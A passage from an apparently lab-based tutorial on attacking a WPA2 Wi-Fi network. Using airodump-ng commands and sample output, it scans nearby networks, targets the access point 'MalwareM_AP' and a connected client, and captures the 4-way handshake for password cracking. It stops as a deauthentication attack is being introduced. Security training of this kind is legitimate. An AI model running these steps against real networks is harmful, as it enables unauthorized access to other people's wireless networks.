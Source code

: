 On the first terminal, we start by capturing Wi-Fi traffic in the area, specifically targeting the WPA handshake packets. We can do this with the command sudo airodump-ng wlan2. This command provides a list of nearby Wi-Fi networks (SSIDs) and shows important details like signal strength, channel, and encryption type. This information is already known to us from our previous commands.

Note: By default, airodump-ng will automatically switch the selected wireless interface into monitor mode if the interface supports it.
Terminal

glitch@wifi:\~$ sudo airodump-ng wlan2
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

02:00:00:00:00:00  -28        2        0    0   6   54   WPA2 CCMP   PSK  MalwareM_AP

The output reveals the information we already knew before, such as the BSSID, SSID, and the channel. However, in this particular output, we are also given the channel where our target SSID is listening (channel 6). Now, we will focus on the MalwareM_AP access point and capture the WPA handshake; this is crucial for the PSK (password) cracking process.

First, in the current terminal, let us cancel airodump-ng using CTRL+C and then execute the command sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2. This command targets the specific network channel and MAC address (BSSID) of the access point for which you want to capture the traffic and saves the information to a few files that start with the name output-file. These files will be used to crack the PSK. The ultimate goal of this command is to capture the 4-way handshake. It will first check for any clients that may be connected to the access point. If a client is already connected, then we can perform a deauthentication attack; otherwise, for any new client that connects, we will capture the 4-way handshake. In this particular scenario, a client is already connected. The output will look the same at first until we receive the information about the connected client, which will be displayed at the bottom of our output. It is important to leave this command running until we are done with the attack.
Terminal

glitch@wifi:\~$ sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2
BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

02:00:00:00:00:00  -28 100      631        8    0   6   54   WPA2 CCMP   PSK  MalwareM_AP

BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

It should take between 1 to 5 minutes before receiving the client information. In our case, it will show like this:
Terminal

BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

02:00:00:00:00:00  -28 100      631        8    0   6   54   WPA2 CCMP   PSK  MalwareM_AP

BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

02:00:00:00:00:00  02:00:00:00:01:00  -29    1 - 5      0      140

Note that the STATION section shows the device's BSSID (MAC) of 02:00:00:00:01:00 that is connected to the access point. This is the connection that we will be attacking. Now we are ready for the next step.

On the second terminal, we will launch the deauthentication attack. Because the client is already connected, we want to force them to reconnect to the access point, forcing it to send the handshake packets. We can break this down into 3 simple steps:
